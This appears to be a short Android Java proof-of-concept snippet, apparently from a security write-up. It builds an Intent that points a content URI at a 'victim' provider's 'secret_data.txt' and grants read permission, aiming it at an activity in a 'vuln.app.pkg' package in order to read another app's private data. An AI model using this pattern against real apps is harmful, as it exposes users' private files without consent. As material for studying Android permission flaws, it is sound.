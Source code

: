    Intent intent = new Intent();
    intent.setData(Uri.parse("content://com.victim.provider/secret_data.txt"));
    intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
    intent.setClassName("vuln.app.pkg", "vuln.app.pkg.SomeActivity");
    startActivityForResult(intent, 0);